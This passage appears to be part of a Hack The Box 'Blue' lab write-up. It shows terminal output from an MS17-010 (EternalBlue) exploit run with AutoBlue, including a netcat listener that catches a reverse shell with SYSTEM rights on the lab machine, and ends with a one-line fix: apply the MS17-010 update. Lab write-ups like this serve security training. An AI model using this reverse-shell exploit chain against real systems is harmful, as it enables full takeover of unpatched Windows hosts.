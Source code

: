 ```
ServiceExec Error on: 10.129.26.106
nca_s_proto_error
Done
kali@kali:~/htb/Blue$ 
```

And

```
kali@kali:~/AutoBlue-MS17-010/shellcode$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.26.106 49160
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```


## How to stop this exploit:

Update the system. MS17-010

